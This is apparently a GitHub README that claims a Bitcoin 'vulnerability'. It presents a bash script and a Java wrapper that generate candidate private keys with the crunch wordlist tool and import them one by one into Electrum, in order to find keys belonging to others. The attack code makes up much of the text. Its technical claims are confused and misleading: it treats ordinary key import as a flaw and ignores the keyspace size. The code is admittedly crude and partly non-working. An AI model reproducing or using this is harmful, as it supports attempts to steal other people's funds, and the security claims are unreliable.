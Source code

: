 # bitcoin-lost-deep-key-private-key
# lost bitcoin , deep key private key

The core concepts of how the blockchain works and operates remains uneffected by this vulernability in how bitcoin works,

<br>

It might be possible to scan bitcoin private keys sitting on the network due to a vulnerability in the way bitcoin was 
designed since there is nothing really safeguarding the internal framework of the bitcoin wallet either in classic, core or 
other variants. Even by encrypting your wallet nothing prevents the importation of a private key by changing a configuration 
flag in any wallet whether it is classic, core or a variant. I have attempted to test a basic attack vector using a password 
generation program based on JTR and crunch (https://sourceforge.net/projects/crunch-wordlist/) to generate a range of base 
58 values based on bitcoin private keys and under further modification it is possible to continue to customize this form of 
private key deep scan and execute it as a basic attack vector. The banking system should be notified not to get on-board 
with the Bitcoin network, even though originally the bitcoin network might have represented a form of Independence from 
banking institutions to by pass terrible fees from the banks and other dilemmas caused by most banks having full control.
As an example of private key generation and experimentation within the bitcoin network some private keys start with #L5..c4 
or Ky..k1 < as an example 52 characters alpha-numeric no special characters, decoded they flip around to an address starting 
with 1 as part of the end decoded process, similar to how paper wallets are printed exported and imported there is #nothing 
protecting a paper wallet if it is a known similar to how a private key bears no security or protection from import to #a 
wallet whether it is classic, core or a variant.
<br>
<br>
<br>
<br>

I estimate on a modern system this deep key scan for a small set of keys ranging in a few million private keys could take 
anywhere from 3 to 4 months to generate and scan, furthermore I have written a crude script to try newly generated private 
keys using “crunch” password generator to generate 52 character private keys starting with L or K.
this problem could also effect any "ALT" that uses the same model for private key to address encoding-decoding


# https://bitcoinelectrum.com/importing-your-private-keys-into-electrum/
<br>

#as an example using bash from a crude semi working type
<br>

where the .txt files are private key deep search blocks generated by crunch password generator
<br>

and electrum has to have a config flag flipped in order to import private keys, in order to being import
<br>

you have to import a pre-existing working private key into electrum which is used here.
<br>

#!/bin/sh 
<br>

head -n1 L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt > 
<br>

newfile.txt 
<br>

cat newfile.txt 
<br>

perl -p -i -e 's/\R//g;' newfile.txt 
<br>

cat newfile.txt 
<br>

cat newfile.txt | electrum importprivkey - 
<br>

tail -n +2 "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" > 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" && mv 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" 
<br>

"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" 

<br>





#as a crude example using java in a non working model
<br>


/* 
<br>
* To change this license header, choose License Headers in Project Properties. 
<br>

* To change this template file, choose Tools | Templates 
<br>

* and open the template in the editor. 
<br>

*/ 
<br>

//package deepkeysearch; 
<br>

import java.io.BufferedReader; 
<br>

import java.io.InputStreamReader; 
<br>

public class DeepKeySearch { 
<br>

    public static void main(String[] args) { 
<br>

        DeepKeySearch obj = new DeepKeySearch(); 
<br>
<br>
<br>
<br>
<br>
    System.out.println("Place in working directory of wordlists to process"); 
<br>

    System.out.println("Change text file rotation after L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-
<br>
  
    L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt"); 
<br>
<br>
<br>
<br>

        String command = "./deepkey.sh"; 
<br>
<br>
<br>

        String output = obj.executeCommand(command); 
<br>
<br>
<br>

        System.out.println(output); 
<br>

    } 
<br>

    private String executeCommand(String command) { 
<br>

        StringBuffer output = new StringBuffer(); 
<br>

        int infinite = 99; 
<br>

        while (infinite != 100) { 
<br>
<br>
<br>

        Process p; 
<br>
      try { 
<br>
            p = Runtime.getRuntime().exec(command); 
            p.waitFor(); 
            BufferedReader reader = 
                            new BufferedReader(new InputStreamReader(p.getInputStream())); 
<br>

                        String line = ""; 
<br>
            while ((line = reader.readLine())!= null) { 
<br>
                output.append(line + "\n"); 
<br>

        System.out.println(output); 
<br>

            } 
<br>

        } catch (Exception e) { 
<br>
            e.printStackTrace(); 
<br>
        } 
<br>

        infinite = 1; 
<br>

        } 
<br>

        return output.toString(); 
<br>

        } 
<br>



    } 






